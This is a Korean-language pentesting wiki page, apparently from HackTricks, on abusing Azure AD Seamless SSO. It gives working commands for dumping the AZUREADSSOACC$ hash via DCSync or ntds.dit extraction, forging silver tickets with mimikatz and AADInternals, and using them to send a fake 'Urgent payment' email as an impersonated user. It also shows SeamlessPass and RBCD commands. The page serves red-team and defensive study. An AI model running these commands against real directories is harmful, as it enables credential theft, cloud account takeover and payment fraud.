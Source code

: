 # Az - Seamless SSO

{{#include ../../../../banners/hacktricks-training.md}}

## 기본 정보

[문서에서:] (https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO)는 **사용자가 회사 네트워크에 연결된 회사 장치에서** 자동으로 **로그인**하도록 합니다. 활성화되면, **사용자는 Azure AD에 로그인하기 위해 비밀번호를 입력할 필요가 없으며**, 일반적으로 사용자 이름도 입력할 필요가 없습니다. 이 기능은 사용자가 추가적인 온프레미스 구성 요소 없이 클라우드 기반 애플리케이션에 쉽게 접근할 수 있도록 합니다.

<figure><img src="../../../../images/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

기본적으로 Azure AD Seamless SSO는 **온프레미스 도메인에 가입된 PC에서** **사용자를 로그인**시킵니다.

이는 [**PHS (비밀번호 해시 동기화)**](phs-password-hash-sync.md)와 [**PTA (통과 인증)**](pta-pass-through-authentication.md) 모두에서 지원됩니다.

데스크탑 SSO는 인증을 위해 **Kerberos**를 사용합니다. 구성되면, Azure AD Connect는 온프레미스 AD에 **AZUREADSSOACC`$`**라는 **컴퓨터 계정을 생성**합니다. `AZUREADSSOACC$` 계정의 비밀번호는 **구성 중에 Azure AD로 평문으로 전송**됩니다.

**Kerberos 티켓**은 비밀번호의 **NTHash (MD4)**를 사용하여 **암호화**되며, Azure AD는 전송된 비밀번호를 사용하여 티켓을 복호화합니다.

**Azure AD**는 Kerberos **티켓**을 수락하는 **엔드포인트**(https://autologon.microsoftazuread-sso.com)를 노출합니다. 도메인에 가입된 머신의 브라우저는 SSO를 위해 이 엔드포인트로 티켓을 전달합니다.

### 온프레미스 -> 클라우드

사용자 **`AZUREADSSOACC$`**의 **비밀번호**는 **절대 변경되지 않습니다**. 따라서 도메인 관리자는 **이 계정의 해시를 손상시킬 수 있으며**, 이를 사용하여 **은 티켓**을 생성하여 **동기화된 모든 온프레미스 사용자**로 Azure에 연결할 수 있습니다.
```bash
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
해시를 사용하여 이제 **실버 티켓을 생성**할 수 있습니다:
```bash
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **브라우저 시작:** Mozilla Firefox를 실행해야 합니다.
2. **브라우저 구성:**
- **`about:config`**로 이동합니다.
- [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)의 기본 설정을 지정된 [값](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)으로 설정합니다:
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **웹 애플리케이션 접근:**
- 조직의 AAD 도메인과 통합된 웹 애플리케이션을 방문합니다. 일반적인 예로는 [Office 365](https://portal.office.com/)가 있습니다.
4. **인증 과정:**
- 로그인 화면에서 사용자 이름을 입력하고 비밀번호 필드는 비워둡니다.
- 진행하려면 TAB 또는 ENTER를 누릅니다.

> [!TIP]
> MFA가 활성화된 경우 우회하지 않습니다.

#### 옵션 2 dcsync 없이 - SeamlessPass

이 공격을 **dcsync 공격 없이** 수행하는 것도 가능합니다. [이 블로그 게시물](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)에서 설명된 대로 더 은밀하게 진행할 수 있습니다. 이를 위해 다음 중 하나만 필요합니다:

- **손상된 사용자의 TGT:** 사용자가 손상되었지만 TGT가 없더라도, [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) 및 [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)와 같은 많은 도구에서 구현된 가짜 TGT 위임 트릭을 사용하여 얻을 수 있습니다.
- **골든 티켓**: KRBTGT 키가 있다면 공격받는 사용자에게 필요한 TGT를 생성할 수 있습니다.
- **손상된 사용자의 NTLM 해시 또는 AES 키:** SeamlessPass는 이 정보를 사용하여 도메인 컨트롤러와 통신하여 TGT를 생성합니다.
- **AZUREADSSOACC$ 계정 NTLM 해시 또는 AES 키:** 이 정보와 공격할 사용자의 보안 식별자(SID)를 사용하여 서비스 티켓을 생성하고 클라우드에 인증할 수 있습니다(이전 방법에서 수행된 대로).

마지막으로, TGT를 사용하여 [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) 도구를 사용할 수 있습니다:
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
Firefox를 원활한 SSO와 함께 작동하도록 설정하는 추가 정보는 [**이 블로그 게시물에서**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) 확인할 수 있습니다.

#### ~~클라우드 전용 사용자에 대한 Kerberos 티켓 생성~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory 관리자가 Azure AD Connect에 접근할 수 있다면, **클라우드 사용자에 대한 SID를 설정할 수 있습니다**. 이렇게 하면 Kerberos **티켓**이 **클라우드 전용 사용자에 대해서도 생성될 수 있습니다**. 유일한 요구 사항은 SID가 적절한 [SID](<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824(v=ws.10)>)여야 한다는 것입니다.

> [!CAUTION]
> 클라우드 전용 관리자 사용자의 SID 변경은 현재 **Microsoft에 의해 차단되었습니다**.\
> 정보는 [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)에서 확인하세요.

### 온프레미스 -> 클라우드 리소스 기반 제약 위임 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

이 계정이 있는 컨테이너 또는 OU에서 컴퓨터 계정(`AZUREADSSOACC$`)을 관리할 수 있는 사람은 **계정에 대한 리소스 기반 제약 위임을 구성하고 접근할 수 있습니다**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
- [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{{#include ../../../../banners/hacktricks-training.md}}
